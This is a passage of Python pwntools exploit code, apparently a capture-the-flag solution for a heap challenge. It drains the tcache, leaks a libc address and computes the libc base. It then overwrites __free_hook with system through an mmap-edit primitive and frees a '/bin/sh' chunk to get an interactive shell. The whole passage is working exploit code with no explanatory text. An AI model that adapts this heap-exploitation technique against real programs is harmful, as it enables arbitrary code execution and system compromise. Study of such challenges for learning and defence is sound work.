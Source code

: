 ```python
    p.sendline(str(index))
    p.recvuntil("Value: ")
    p.sendline(str(value))
def exp():
    start = 0xe0000000
    add(0,0x100)
    for i in range(7):
        add(i+1,0x100)
    for i in range(7):
        free(i+1)
    free(0)
    #gdb.attach(p)
    
    for i in range(7):
        add(i + 1, 0x100)
    add(0,0x100)
    
    edit(0,"NNN")
    show(0)
    p.recvuntil("NNN\n")
    puts_addr = u32(p.recvuntil('\xf7')[-4:])
    
    libc_base = puts_addr - 0x1d87d8
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    free_hook = libc_base + libc.sym['__free_hook']
    system = libc_base + libc.sym['system']
    one = [0x4f365,0x4f3c2,0x10a45c]
    one_gadget = libc_base+one[1]
    idx = (free_hook - start)/4
    edit(1,"/bin/sh\x00\n")
    mmap_new(0)
    mmap_edit(idx,system)
    free(1)
    p.interactive()
exp()
```


